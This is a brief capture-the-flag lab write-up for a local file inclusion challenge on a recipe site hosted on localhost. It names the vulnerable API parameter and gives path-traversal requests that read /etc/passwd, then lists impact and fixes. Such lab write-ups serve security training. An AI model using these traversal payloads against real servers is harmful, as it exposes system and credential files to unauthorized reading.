


# File Inclusion 0x03 [Challenge]

## What is this challenge?
This is a challenge lab called "Rolling Scones"
that requires finding and exploiting an LFI 
vulnerability in a recipe website.

## Target
http://localhost/labs/fi0x03.php

## Vulnerability
The API endpoint accepts a filename parameter:
/labs/api/fetchRecipe.php?filename=

## Attack

### Step 1 — Identify the attack surface
Browsed the Rolling Scones recipe website
and intercepted requests in Burp Suite

### Step 2 — Find the vulnerable endpoint
Discovered API endpoint:
GET /labs/api/fetchRecipe.php?filename=../../../../etc/passwd

### Step 3 — Exploit LFI
Used path traversal to read /etc/passwd:
GET /labs/api/fetchRecipe.php?filename=
../../../../../etc/passwd

## Result
Successfully read /etc/passwd through 
the API endpoint

## Screenshots

## Impact
- Hidden API endpoints vulnerable to LFI
- Full file system access through API
- Sensitive data exposure

## Fix
- Validate all API input parameters
- Never pass user input to file functions
- Implement proper API authentication
